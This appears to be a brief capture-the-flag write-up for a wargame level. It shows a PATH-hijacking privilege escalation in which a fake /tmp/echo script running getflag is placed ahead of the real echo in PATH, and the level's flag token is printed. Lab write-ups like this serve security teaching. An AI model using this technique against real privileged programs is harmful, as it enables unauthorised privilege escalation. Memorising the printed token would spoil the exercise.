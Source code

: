 # Level 03

## step 1 : analyze level03
```
$ strings level03
```
we can see that level03 use the echo command

## step 2 : create a fake echo command that will run getflag
```
$ echo "/bin/getflag" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH="/tmp:$PATH"
```

## step 3 : execute level03
```
$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
